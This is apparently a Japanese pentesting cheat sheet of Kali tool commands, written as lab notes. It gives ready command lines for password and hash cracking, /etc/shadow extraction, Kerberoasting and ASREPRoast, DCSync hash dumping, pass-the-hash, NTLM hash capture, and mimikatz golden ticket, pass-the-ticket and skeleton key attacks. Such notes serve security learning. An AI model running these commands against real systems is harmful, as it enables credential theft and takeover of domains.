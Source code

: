 ## Tools
- [CyberChef](https://github.com/gchq/CyberChef)  
  「Magic」可読可能な文字列に変換してくれる
- [enum4linux](https://github.com/CiscoCXSecurity/enum4linux) (kali〇, Perl)  
  「`enum4linux` IPアドレス」
- [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) (kali〇, Ruby)  
  「`evil-winrm` -i IPアドレス -u ユーザ名 -H NTハッシュ」WinRM経由でログインできる
- [exifool](https://github.com/exiftool/exiftool) (kali×, Perl)  
  「`exiftool` ファイル名 -Exifタグ名」任意のExif情報をフィルタ  
  位置情報をGoogleMapで検索するときは「-n」オプションの出力を検索にかけると良い
- ftp (kali〇, ELF)  
  「`ftp` IPアドレス -a」Anonymousログオン
- [GoBuster](https://github.com/OJ/gobuster) (kali×, Go)  
  「`gobuster` -u URL -w wordlist名 dir」URL配下のコンテンツをWordlistを用いて探索
- gpg (kali〇, ELF)    
  「`gpg` --import "GPG鍵(拡張子.key)"」→「`gpg` -d "メッセージファイル(拡張子.gpg)"」GPGファイルを復号
- [hashcat](https://github.com/hashcat/hashcat) (kali〇, C)  
  「`hashcat` -a 0 -m 値 Hashファイル名 Wordlist名」  
  「-a 0 」は辞書攻撃、「-m 値」はハッシュ形式（-m 13100 は「$krb5tgs」、-m 18200 は「$krb5asrep」、-m 5600は「NTLMv2-SSP」）
- [hashID](https://github.com/psypanda/hashID) (kali〇, python)  
  「`hashid` -j Hashファイル名」（-jで、JohnTheRipperのフォーマット・-mでHashCatのフォーマットも確認できる）
- [hydra](https://github.com/vanhauser-thc/thc-hydra) (kali〇,C)  
  「`hydra` -L ユーザリスト名 -p パスワード Domainメイン `/:A=NTLM:F=401`」でIISサーバのNTLN認証をパスワードスプレー
- [impacket](https://github.com/fortra/impacket) (Kali〇, python)  
  impacket-〇〇以外に、`python3 /usr/share/doc/python3-impacket/examples/〇〇.py`でも実行できる
  - GetNPUsers  
    - 「`impacket-GetNPUsers` -no-pass -dc-ip ドメコンIP ドメイン名/ユーザ名 -outputfile 出力ファイル名」  
      ASREPRoast（Kerberos事前認証を必要としていないユーザのTGTを取得できる）を実行  
      取得したTGTは「hashcat -a 0 -m 18200 Passwordリスト名 TGTファイル名 」  
      または「john --wordlist=Passwordリスト名 TGTファイル名」でクラックできる  
    - 「`impacket-GetNPUsers` -no-pass -dc-ip ドメコンIP -userfile ユーザリスト ドメイン名/ -outputfile 出力ファイル名」  
      では「-userfile」内の各ユーザに対してASREPRoastを実行
  - GetUserSPNs  
    「`impacket-GetUserSPNs` -dc-ip ドメコンIP ドメイン名/ユーザ名:パスワード -outputfile 出力ファイル名」  
    Kerberoasting（取得したユーザのSPNに対応したアカウントのTGSを取得できる）を実行  
    TGSは「hashcat -a 0 -m 13100 TGSファイル名 Passwordリスト」でクラックできる（JohnではTGSをサポートしてない）
  - secretsdump  
    「`impacket-secretsdump` -just-dc ドメイン名/ユーザ名:パスワード@IPアドレス -outputfile 出力ファイル名」  
    DCSync権限を持つドメインユーザを使用して、各ドメインユーザのNTハッシュやKerberosキーをダンプできる
- [John the Ripper](https://github.com/openwall/john) (kali〇, C)  
  - 「`john` --wordlist=/usr/share/wordlists/rockyou.txt Hashファイル名 --format=Hash方式」  
    「`john` Hashファイル名 --show」クラック済み結果を表示（もしくは`/home/kali/.john/.john.pot`に解析結果がある）
  - 「`john` --list=formats」全フォーマットを表示  
    「--format=Raw-MD5」MD5ハッシュ, 「--format=nt」NTハッシュ
  - johnで解析するためのパスワード抽出
    - 「`zip2john` zipファイル名 > 出力ファイル名」johnで解析できるようにZIPパスワードを抽出  
    - 「`rar2john` rarファイル名 > 出力ファイル名」johnで解析できるようにRARパスワードを抽出  
    - 「`ssh2john` SSH秘密鍵ファイル名 > 出力ファイル名」johnで解析できるようにSSH秘密鍵を抽出
    - 上記３つを実行後、「`john` --wordlist=/usr/share/wordlists/rockyou.txt 出力ファイル名」でクラック可能
  - 「john --single Hashファイル --format=Hash方式」SingleCrackモード（あんま使わん）  
    Hashファイルは「文字列:ハッシュ」形式。文字列を変換しながらHashクラックを行う
  - 「sudo `unshadow` /etc/passwd /etc/shadow」  
    Johnで /etc/shadow をクラックするためのフォーマット作成
- [Kerbrute](https://github.com/ropnop/kerbrute) (kali×, Go)
  - install  
    GitHub上のReleaseからLinuxバイナリをインストール
  - 「`./kerbrute` userenum -d ドメイン名 --dc ドメコンIP Wordlists名 -o 出力ファイル名」Domainユーザの列挙
- [mimikatz](https://github.com/gentilkiwi/mimikatz) (kali〇, C)  
  「privilege::debug」→「[output '20' OK]」でAdministrator権限であるか確認
  - Golden/Silver Ticket Attacks  
    「lsadump::lsa /inject /name:krbtgt」  
    krbtgtアカウントのNTハッシュやSIDをダンプ（SilverTicketの場合は/nameで指定のユーザを指定）  
    「Kerberos::golden /user:Administrator /domain:ドメイン名 /sid:krbtgtのSID /krbtgt:krbtgtのNTハッシュ /id:500」  
    GoldenTicketを作成（SilverTicketは別の方法）  
    「misc::cmd」で先程作成したTicketに昇格する
  - Pass the Ticket  
    「sekurlsa::tickets /export」.kiribiチケットが現在地にエクスポート  
    「kerberos::ptt .kiribiチケット名」→「klist」でキャッシュされたチケットを表示で攻撃の成功を確認
  - Skeleton Key  
    「misc::skeleton」ドメコンのメモリ上にマスタパスワードを挿入し、AD認証をバイパスする
- [pdfinfo](https://github.com/howtomakeaturn/pdfinfo) (kali×, PHP)  
  「`pdfinfo` PDFファイル名」PDFメタデータの確認
- [PowerPXE](https://github.com/wavestone-cdt/powerpxe) (kal×, Powershell)
  Windows上のPowershellで「Import-Modlue .\PowerPXE.ps1」でスクリプトをインポートして、
  「Get-WimFile -bcdFile "BCDファイル名"」でPXEブートイメージの場所を取得
- [Responder](https://github.com/lgandx/Responder) (kali〇, python)  
  「sudo `responder` -I インタフェース名」でNTLM通信を中継・NTLMハッシュの取得
- [Rubeus](https://github.com/GhostPack/Rubeus) (kali×, C#)  
  攻撃対象のWindowsマシンで実行する、Post-Exploitationのイメージ  
  - 「`Rubeus.exe` harvest /interval:秒数」指定した秒数間、TGTを収集する  
  - 「`Rubeus.exe` kerberoast /nowrap /outfile:出力ファイル名」  
    Kerberoasting（取得したユーザのSPNに対応したアカウントのTGSを取得できる）を実行（nowrapは改行なしで結果出力）  
    TGSは「hashcat -a 0 -m 13100 TGSファイル名 Passwordリスト」でクラックできる（JohnではTGSをサポートしてない）
  - 「`Rubeus.exe` asreproast /format:hashcat /outfile:出力ファイル名」  
    ASREPRoast（Kerberos事前認証を必要としていないユーザのTGTを取得できる）を実行  
    TGTは「hashcat -a 0 -m 18200 TGTファイル名 Passwordリスト」でクラックできる  
    （Johnでは「john --wordlist=Passwordリスト名 TGTファイル名」でクラックできる）
- scp (kali〇, ELF)  
  「`scp` SSHユーザ名@IPアドレス:/リモートパス ローカルパス」リモート先からダウンロード
- smbclient (kali〇, ELF)  
  「`smbcleint` -L IPアドレス or FQDN -U ユーザ名%パスワード」共有フォルダの列挙  
  「`smbclient` //IPアドレス/共有名 -U ユーザ名%パスワード」共有フォルダにアクセス
- [SMBMap](https://github.com/ShawnDEvans/smbmap) (kali〇, python)  
  「`smbmap` -H IPアドレス -u ユーザ名 -p パスワード」共有フォルダの列挙（smbclientと比べフォルダ権限まで確認できる）
- SSH  
  SSH秘密鍵の権限は600か700でないとSSH鍵認証できない
  - sshkeygen
- [tcpdump](https://github.com/the-tcpdump-group/tcpdump) (kali〇, C)  
  「sudo `tcpdump` -SX -i インタフェース名 tcp port ポート番号」でTCP通信をHexとASCII形式で見れる

## Linux
### Command
- 「`sed` -i '1s/^/文字列' ファイル名」 ファイルの１行目（`1s`）先頭に文字列を追加（改行なし）
### Preference
- 「sudo `sed` -i '$a10.10.253.185 spookysec.local' /etc/hosts」を実行しHOSTSファイルを編集
- 「/etc/resolve.conf」はNetworkManagerが管理しているため、Viなどで編集しても元に戻る  
  Nameサーバを指定したい場合は、GUIのNetworkManagerから設定する
- `$format$rounds$salt$hash` /etc/shadowのフォーマット、`$format`でハッシュ種別が分かる

## BookMark
- [CrackStation](https://crackstation.net/)  
  hashクラック
- [hashes.com](https://hashes.com/en/decrypt/hash)  
  hashクラック
- [hash_identifier](https://hashes.com/en/tools/hash_identifier)  
  hash識別

## Link
